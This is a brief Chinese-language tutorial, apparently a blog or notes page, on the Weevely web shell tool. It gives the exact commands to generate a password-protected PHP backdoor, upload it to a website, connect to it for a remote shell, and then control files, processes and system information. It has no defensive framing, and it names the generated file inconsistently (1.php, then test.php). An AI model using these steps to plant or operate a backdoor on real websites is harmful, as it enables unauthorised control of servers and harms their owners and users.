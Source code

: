 # Weevely 
---


使用Weevely?

 1、在Kali Linux终端输入weevely

 2、生成一个php后门，是base64加密的，存放路径可自行指定 格式：weevely generate 密码 路径 文件名 举例：weevely generate passwd /tmp/1.php 解析：生成一个名为test.php的后门，密码为passwd 

3、将此后门上传到网站，用weevely连接，连接后面直接跟上设置的密码【网站路径自行指定】 weevely http://192.168.179.137/doyo/test.php passwd 

4、连接webshell，会反弹一个shell终端，中文会乱码，可设置终端界面编码解决之。

5、进行控制操作，如查看系统信息，文件操作，进程操作等 6、同时weevely还支持多个模块使用，在连接上后门之后按Tab键，可以查看可利用的模块，工具很强大，大家自行研究！
